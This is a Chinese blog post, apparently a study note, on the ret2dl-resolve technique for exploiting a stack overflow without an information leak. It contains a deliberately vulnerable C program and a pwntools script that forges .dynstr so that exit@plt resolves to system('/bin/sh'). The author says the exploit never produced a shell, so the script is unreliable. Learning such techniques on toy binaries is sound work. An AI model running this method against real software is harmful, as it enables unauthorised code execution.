 ```yaml
---
title: exploit without info leak 
date: 2017-02-15 22:28:37
categories: pwn
---
```


# 不依靠信息泄漏来exploit
> - by hook

## 信息介绍

 安全攻防的升级从堆栈执行shellcode到NX不可执行，从ret2libc到ASLR地址随机化，从dynamic symtab strtab到RELRO, 到攻击者的内存泄漏内存地址不断进化着。
目前攻击者在控制pc指针后，一般分两步来完成后续的漏洞利用。第一步通过信息泄漏漏洞leak出内存布局，第二部则是精心构造具有艺术感的exploit gadget。
 但如果有些程序没有可以泄漏内存的信息的漏洞怎么办？如下面的代码，除了明显的pc指针控制漏洞外，没有引入任何输出函数，导致后续没办法输出内存信息。
 
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulfunc()
{
    char sbuf[10];
    read(0, sbuf, 60);
}

int main()
{
    vulfunc();
    exit(0);
    return 0;
}
```
在usenix大会上,ucsb-seclab分享了他们的攻击方法。在Linux上，为了节省静态库占用空间，和保证动态库的稳定工作，引入了一种plt lazy binding的技术。一个普通的ELF文件通常包含了下面一些段
![](/images/exploit without info leak/1.png)
而那些从外部动态库引入的函数则主要以字符串信息保存在ELF中，而它们正真的地址则在程序第一次调用它们时才从系统获取到。这个过程中利用PLT来完成延迟绑定，在第一次函数地址重定位后，函数地址将被写入GOT表中，此后再调用该函数将查询GOT表来跳转。（参考于 《程序员的自我修养 --链接、装载与库》）

## 攻击思路

那么这里就有个想法，如果修改了内存中保存的函数名，比如把"printf"这个字符串改为“execv“等关键函数，那么在第一次调用printf("/bin/sh")时，真正执行了execv("/bin/sh")，从而get shell。
但ELF相关开发小组早就做了保护，保存的函数名等字符串段在载入内存后是仅可读的，阻止攻击者通过篡改内存中函数名来获取到其他函数在内存中的地址。

但同样的思路，换个方法，就可以成功绕过防护，这里就要介绍写ELF中信息的分布和函数地址的动态重定位了了。
1. .dynstr段中保存了动态引入的函数名字符串
2. .dynsym段中则是记录了不同动态引入函数的其他信息，并且st_name保存了.dynstr中对应的函数名称的下标号
    struct {
        st_name
        ...
    }
3. .rel.plt段则是用来记录引入函数的地址信息，如果在动态链接器获取了函数地址后，r_offset保存解析后的符号地址被写入内存中的位置，而r_info保存.dynsym中对应的函数信息的下标号
    struct {
        r_offset
        r_info
    }
4. .dynamic段则保存了上面各个段的地址，负责地址的查询工作

而函数地址则由got表中第二个标号中的_dl_runtime_resolve(link_map_obj, reloc_index)函数指针来获取，获取到的地址则保存到got表中，那么就可以衍生出下面几种不同情况下的攻击方法：

## 攻击方法
### 部分RELRO保护 1.
在内存可写的段中构造伪造的.dynstr段信息，将其中的最后要用的函数名改为自己想要的函数名，比如execv 替换printf
接着将该段内存的地址覆盖写入.dynmaic段中保存.dynstr地址的区域，接着再向内存中写入shellcode，接着给printf函数传入shellcode，那么当printf是第一次被调用时，将从伪造的.dynstr段中读取到“execv”函数名，接着从内存中获取到execv函数地址存入printf函数对应的got表中，最后跳转回去再执行到的就是execv(shellcode)了，成功get shell。
### 部分RELRO保护 2.
直接一次性伪造.dynstr, .dynsym, .rel.plt三个段，填入自己想获取的函数名称信息，最后将伪造的.rel.plt地址传入_dl_runtime_resolve()中，最后会顺着地址将伪造的.dynstr段中的函数名解析，获取到地址，保存到对应标号的GOT表中，后续就是同样利用了。
### 完全RELRO保护 3.
当采用完全RELRO保护时，所有重定位将在加载时全部完成，没有plt lazy binding, 所以要绕过保护需要采用不同的方法。
伪造.dynamic, .dynstr, 接着通过DT_DEBUG来解析r_debug中保存的r_map信息，r_map则保存着link_map链表的头部指针， 覆盖link_map的l_info指向伪造的.dynamic段中，后续相同利用。

## 攻击测试
先贴exp：

```
#!/usr/bin/python

from pwn import *

vulFunAddr = 0x0804845b
mainFunAddr = 0x08048476
readpltAddr = 0x08048310
exitpltAddr = 0x08048340
putspltAddr = 0x08048320
dynstrInDynamicAddr = 0x080496a0
dynstrAddr = 0x0804821c
bssAddr = 0x08049770
dynstrListAddr = [0x0804821c, 0x0804821d, 0x08048227, 0x08048236, 0x0804823b, 0x08048240, 0x08048245, 0x08048257, 0x08048266, 0x08048270]
strTable = ['', 'libc.so.6', '_IO_stdin_used', 'puts', 'exit', 'read', '__libc_start_main', '__gmon_start__', 'GLIBC_2.0', '']
strTable[4] = 'system' #use 'system' in place of 'exit'
log.info('strTable = ')
log.info(strTable)

expOffset = 22 
log.info("* [ok]: exploit offset is " + str(expOffset))
binShellStr = '/bin/sh\0'
payloadHead = 'a'*expOffset

def showDynStr():
    log.info("=======================")
    for i in dynstrListAddr:
        payload = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(i)
        p.send(payload)
        str = p.recv()
        #print str
    log.info("=======================")


def writeStrTableToBSS(baseAddr):
    tempBSS = baseAddr
    for i in strTable:
        #str = i + chr(0)
        str = i + chr(0)
        payloadTemp = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(tempBSS) + p32(len(str)+1)
        p.send(payloadTemp)
        log.info('* [ready]: write str = %s ' %(str))
        p.sendline(str)
        #set new bss offset
        tempBSS = tempBSS + len(str)

p = process('./a.out')
#context.log_level = 'debug'
#gdb.attach(p, execute='b *0x0804845b\nb *0x08048476\nb *0x08048340\n')

p.recvline()

log.info("* [ok]: show dynstr strtable")
showDynStr()

#first: write '/bin/sh\0' to BSS seg
payload1 = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(bssAddr) + p32(8)
p.send(payload1)
p.send(binShellStr)
log.info("* [ok]: write '/bin/sh\0' to .bss seg successed!")

#second: write StrTable to BSS seg
dynstrInBSSAddr = bssAddr + len(binShellStr)
writeStrTableToBSS(dynstrInBSSAddr)
log.info("* [ok]: write self StrTable to .bss seg successed!")


log.info("* [ok]: show dynstr strtable")
showDynStr()

#third: write new StrTable address to dynamic d_val addr
payload2 = payloadHead + p32(readpltAddr) + p32(vulFunAddr) + p32(0) + p32(dynstrInDynamicAddr) + p32(4)
p.send(payload2)
p.send(p32(dynstrInBSSAddr))
log.info("* [ok]: write new StrTable to dynamic d_var addr successed!")

log.info("* [info]: ensure '/bin/sh' in .bss")
payload3 = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(bssAddr)
p.send(payload3)
str = p.recv()
print str

#forth: exit, and exit@plt('/bin/sh') -> system('/bin/sh')
#payload3 = payloadHead + p32(exitpltAddr) + p32(mainFunAddr) + p32(bssAddr)
log.info("* [ok]: show strTable in .bss")
payload3 = payloadHead + p32(putspltAddr) + p32(vulFunAddr) + p32(dynstrInBSSAddr)
p.send(payload3)
str = p.recv()
log.info("=======================")
print str
log.info("=======================")
payload3 = payloadHead + p32(exitpltAddr) + p32(vulFunAddr) + p32(bssAddr)
p.send(payload3)
log.info("* [waiting]: exit@plt('/bin/sh') -> system('/bin/sh')")

p.interactive()
```

在测试结果时，故意将函数名填错后，程序运行提示重定位错误
![](/images/exploit without info leak/2.jpeg)
修改正确后
![](/images/exploit without info leak/3.png)

但。。。。最后没得到shell。。不知道是我调用有问题。。还是。。算了，记日记，以后再调试。。。


